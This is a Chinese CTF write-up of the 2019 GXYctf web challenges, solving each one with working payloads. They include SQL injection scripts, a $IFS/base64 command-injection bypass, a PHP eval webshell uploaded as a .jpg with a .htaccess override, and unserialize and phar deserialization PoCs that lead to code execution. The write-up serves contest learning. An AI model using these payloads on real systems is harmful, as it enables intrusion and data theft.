

2019 GXYctf-Web题解WriteUp
BabySqli 考察万能密码登陆，过滤了 or 关键字，可以用 联合注入 ，字段测试一下为 3 。密码字段题目提示有 md5加密
payload：
1 name=1' union select 1,'admin','c4ca4238a0b923820dcc509a6f75849b'#&pw=1
ping ping ping 考察命令执行bypass。过滤了关键字 & ， %20 ， / ，{} ，[] ，? ， **， * “ ， ‘
用管道符 | 多命令执行，空格过滤用 $IFS 和 $IFS$9 绕过
看到当前目录下的 flag.php 文件，但是直接读：?ip=1|cat$IFSflag.php 会发现 flag 关键字被过滤了
后台过滤的逻辑是匹配到 f.*l.*a.*g 这四个字符一起出现就过滤。并且 文件通配符 都被过滤。因此只能用 编码 的方法来绕过
payload：
1 ?ip=1|echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh
Babysqliv2.0 题目说明使用了 汉字 ，那就可能存在 宽字节注入 ，fuzz：?name=admin%df' 出现了报错，后面就是写个脚本盲注了，另外后台还把 select ，where ，union 替换为空
得到表：f14g ，由于过滤了关键字 0x ，没办法注列名。只能用 无列名注入 方式， f14g 表有 两列 ，第二列是内容，有61行内容(base64编码)。需要通过 where 条件筛选出 flag ，flag格式是 GXY{} 。通过 regexp 来筛选：
1 sselectelect/**/`2`/**/from/**/(sselectelect/**/1,2/**/uunionnion/**/sselectelect/**/*/**/from/**/f14g)a/**/wwherehere/**/hex(`2`)/**/regexp/**/5231
最后的exp：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 import requestsurl = "http://183.129.189.60:10006/search.php?" database = "" table_name = "f14g,user" for i in range(1 ,50 ): for j in range(44 ,128 ): payload = "name=admin%df'+or+ascii(substr((sselectelect/**/`2`/**/from/**/(sselectelect/**/1,2/**/uunionnion/**/sselectelect/**/*/**/from/**/f14g)a/**/wwherehere/**/hex(`2`)/**/regexp/**/5231)," +str(i)+",1))=" +str(j)+"%23&pw=123" r = requests.get(url+payload) if "Congratulations!admin" in r.text: database = database + chr(j) print database
1 2 $ echo R1hZe2cwT2Rfam9iMWltX3NvX3ZlZ2V0YWJsZX0= | base64 -d GXY{g0Od_job1im_so_vegetable}
babyupload 上传检测：Content-Type : image/jpeg ， 文件名后缀不能是 ph 开头，文件内容过滤<?
上传文件payload：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 POST / HTTP/1.1 Host: 183.129.189.60:10002 Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryeDkNpgn0mecDlgfo Content-Length: 317 Connection: close ------WebKitFormBoundaryeDkNpgn0mecDlgfo Content-Disposition: form-data; name="uploaded"; filename="2.jpg" Content-Type: image/jpeg <script language ='php' > eval ($_GET['cmd' ]);</script > ------WebKitFormBoundaryeDkNpgn0mecDlgfo Content-Disposition: form-data; name="submit" 1 ------WebKitFormBoundaryeDkNpgn0mecDlgfo--
上传后的 回显目录 不能访问，猜测可能是 被删掉了 。改用 条件竞争 的方法，成功访问。
最后上传 .htaccess 即可getshell
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 POST / HTTP/1.1 Host: 183.129.189.60:10002 Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryeDkNpgn0mecDlgfo Content-Length: 317 Connection: close ------WebKitFormBoundaryeDkNpgn0mecDlgfo Content-Disposition: form-data; name="uploaded"; filename=".htaccess" Content-Type: image/jpeg AddHandler php5-script .jpg ------WebKitFormBoundaryeDkNpgn0mecDlgfo Content-Disposition: form-data; name="submit" 1 ------WebKitFormBoundaryeDkNpgn0mecDlgfo--
disable_functions 中禁用了 系统命令 ，最后getflag：show_source('/flag');
Do you know robot? 访问 robots.txt ，得到源码文件 index.php~
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 <?php class FileReader public $Filename; public $start; public $max_length; function __construct () $this ->Filename = __DIR__ . "/bcm.txt" ; $this ->start = 12 ; $this ->max_length = 72 ; } function __wakeup () $this ->Filename = __DIR__ . "/fake_f1ag.php" ; $this ->start = 10 ; $this ->max_length = 0 ; echo "<script>alert(1)</script>" ; } function __destruct () $data = file_get_contents($this ->Filename, 0 , NULL , $this ->start, $this ->max_length); if (preg_match("/\{|\}/" , $data)){ die ("you can't read flag!" ); } else { echo $data; } } } if (isset ($_GET['exp' ])){ if (preg_match("/.?f.?l.?a.?g.?/i" , $_GET['exp' ])){ die ("hack!" ); } $exp = $_REQUEST['exp' ]; $e = unserialize($exp); echo $e->Filename; } else { $exp = new FileReader(); } ?>
考察反序列化读取flag.php
先GET传参 exp 通过 preg_match 的过滤，把payload通过 POST 传参。反序列化要绕过 __wakeup 就不多说了。然后就是这里的 file_get_contents
1 file_get_contents($this ->Filename, 0 , NULL , $this ->start, $this ->max_length);
支持一个个字节读取文件，虽然内容过滤了 {} ，但是我们可以一个个字节读取 flag.php
POC
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 <?php class FileReader public $Filename; public $start; public $max_length; public function __construct () { $this ->Filename = "flag.php" ; $this ->start = 0 ; $this ->max_length = 10 ; } } $file = new FileReader(); echo serialize($file);
payload：
1 2 3 4 5 6 7 POST /index.php?exp=1 HTTP/1.1 Host: 183.129.189.60:10004 Connection: close Content-Type: application/x-www-form-urlencoded Content-Length: 96 exp=O:10:"FileReader":4:{s:8:"Filename";s:8:"flag.php";s:5:"start";i:21;s:10:"max_length";i:17;}
禁止套娃！ 扫描后台发现 .git 泄露，用 GitExtract 恢复得到 index.php 的源码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 <?php include "flag.php" ;echo "flag在哪里呢？<br>" ;if (isset ($_GET['exp' ])){ if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i' , $_GET['exp' ])) { if (';' === preg_replace('/[a-z|\-]+\((?R)?\)/' , NULL , $_GET['exp' ])) { if (!preg_match('/et|na|nt|info|dec|bin|hex|oct|pi|log/i' , $code)) { eval ($_GET['exp' ]); } else { die ("还差一点哦！" ); } } else { die ("再好好想想！" ); } } else { die ("还想读flag，臭弟弟！" ); } } ?>
很熟悉的 无参数RCE ，具体构造payload就不多说了，flag.php 在当前目录下，但是这里有个问题， scandir 扫描的当前目录结构应该是：
1 2 3 4 5 6 7 8 Array ( [0] => . [1] => .. [2] => .git [3] => flag.php [4] => index.php )
无法直接用 end ， next 等函数来直接指向 flag.php 所在数组位置。坑点就在这里，首先用如下payload读取 index.php ：
1 readfile(end(scandir(chr(ord(strrev(crypt(serialize(array ()))))))));
突然发现，读到源码中有一处是跟 git 恢复的是不一样的：
1 if (';' === preg_replace('/[a-z,_]+\((?R)?\)/' , NULL , $_GET['exp' ]))
函数名中的 下划线 未被过滤，可以使用带 下划线 的函数。于是用 array_reverse 来反转数组，再用 next 指向 flag.php 即可，最终payload：
1 readfile(next(array_reverse(scandir(chr(ord(strrev(crypt(serialize(array ())))))))));
Babysqliv3.0 一开始被题目迷惑，其实不是注入题，爆破 admin 密码得到弱密码 password
登陆后来到 home.php?file=upload ，很显然让我们 LFI ，可以读到 upload.php 和 home.php 的源码：
1 2 home.php?file=php://filter/convert.base64-encode/resource=upload home.php?file=php://filter/convert.base64-encode/resource=home
审计一下 upload.php 中处理文件上传的过程，通过实例化一个上传类 $uploader ，然后调用 Uploader 类的 upload 方法
1 2 $uploader = new Uploader(); $uploader->upload($_FILES["file" ]);
跟进 Uploader 类，在 __construct 方法中发现文件名 $this->Filename 可控
在 upload 方法中，对 $this->Filename 有过滤，要求只能包含 [a-z0-9]范围内的字母，才能执行 move_uploaded_file 上传文件。所以我们就不能直接通过控制 $this->Filename 来上传马，只能直接上传 .txt 后缀的文件。
最后 __destruct 方法，通过 token 验证后通过 eval 执行 $this->cmd 参数

看到这很容易想到需要通过 phar 反序列化进行 RCE ，那么哪里能触发 phar 反序列化呢，接着往下看：
1 2 3 4 5 6 $uploader = new Uploader(); $uploader->upload($_FILES["file" ]); if (@file_get_contents($uploader)){ echo "下面是你上传的文件<br>" .$uploader."<br>" ; echo file_get_contents($uploader); }
$uploader 是一个 Uploader 类对象，传入 file_get_contents 函数后，会把该对象作为 字符串 处理，因而触发 toString 方法，toString 方法则会返回 $this->Filename 参数给 $uploader ，之后 $uploader 会再经过 file_get_contents 函数处理，而 $this->Filename 参数，我们是可控的，因而可以通过 file_get_contents 触发 phar反序列化 ，完整的POP链如下图所示：
POC：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 <?php class Uploader public $Filename; public $cmd; public $token; public function __construct () { $this ->cmd = "readfile('flag.php');" ; $this ->token = "GXY5cb874fb0bdbce453805229c1780772f" ; } } $d = new Uploader(); echo urlencode(serialize($d));$phar = new Phar("sqli.phar" ); $phar->startBuffering(); $phar->setStub("GIF89A" ."__HALT_COMPILER();" ); $phar->setMetadata($d); $phar->addFromString("test.jpg" , "test" ); $phar->stopBuffering(); ?>
将生成的 phar 文件上传，得到 token 验证值 和 phar文件绝对路径 ：
上传 phar文件 之后再提交如下payload：
1 /home.php？file=upload&name=phar:///var/www/html/uploads/96cf6367d7723bc911fc9fe68088f56c/GXY5cb874fb0bdbce453805229c1780772f.txt
任意上传一个文件触发 phar反序列化 即可getshell
最后执行 readfile('flag.php'); 读取flag：GXY{phar_1s_s0_danger}